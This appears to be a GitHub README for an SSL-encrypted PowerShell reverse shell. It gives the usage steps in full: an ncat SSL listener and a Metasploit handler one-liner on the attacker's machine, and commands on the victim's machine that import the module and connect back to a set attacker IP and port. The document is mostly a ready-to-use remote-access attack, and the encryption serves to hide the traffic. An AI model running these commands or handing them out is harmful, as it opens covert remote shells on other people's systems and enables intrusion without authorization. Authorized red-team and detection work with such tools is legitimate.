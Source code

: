 # PowerShell-SSL-ReverseShell
This is a reverse shell written in PowerShell that uses SSL communications between the attacker's machine and the victim's machine. Made with inspiration from [samratashok/nishang Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and [PoweShell: Encrypt TCP Client-Server Traffic with a self-signed X509 Certificate](https://cyberwardog.blogspot.com/2016/08/poweshell-encrypt-tcp-client-server.html)


## Usage

### Attacker Machine

- #### Ncat
```bash 

❯ ncat --ssl -lnvp 4646

```

- #### Metasploit
```bash 

❯ msfconsole -x "use multi/handler;set payload windows/powershell_reverse_tcp_ssl; set lhost 192.168.254.226; set lport 4646; set ExitOnSession false; exploit -j"

```


### Victim Machine
```powershell 

PS > Import-Module .\GetShellSSL

PS > GetShellSSL -Reverse -IPAddress 192.168.254.226 -Port 4646

```

#### Demonstration
![](https://user-images.githubusercontent.com/74554439/197293572-e702d0aa-7390-41e5-ac0e-35b2e13a93d8.mp4)
